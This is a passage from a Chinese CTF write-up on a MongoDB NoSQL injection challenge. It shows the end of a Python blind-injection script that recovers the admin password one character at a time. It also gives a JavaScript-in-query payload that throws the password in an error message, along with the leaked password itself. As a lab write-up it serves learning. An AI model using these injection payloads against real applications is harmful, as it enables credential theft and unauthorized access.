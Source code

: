```python

        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        #print(r.text)
        if "Found. Redirecting to" in r.text:
            #print(payload)
            flag+=j
            print(flag)
            break
"!@#&@&@efefef*@((@))grgregret3r"
"!@#&@&@efefef*@((@))grgregret3r"
```

第二种是WM的Web师傅的骚姿势，只能说学习了，因为实在不会js呜呜呜呜：

> MongoDB支持Javascript语法。所以可以用js语法去抛出内容是admin密码的异常



```js
_csrf=2PzwJX5n-Y1qH02TLkz3_JXa_OBn2hpgU2G8&token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||
( ()=>{throw Error(this.password)})()=="admin
```



> MongoError: Executor error during find command :: caused by :: Error: !@#&@&@efefef*@((@))grgregret3r : @:1:125 @:1:112





登录即可拿到flag。学到了学到了！



# 总结

有空还是得去补补js。






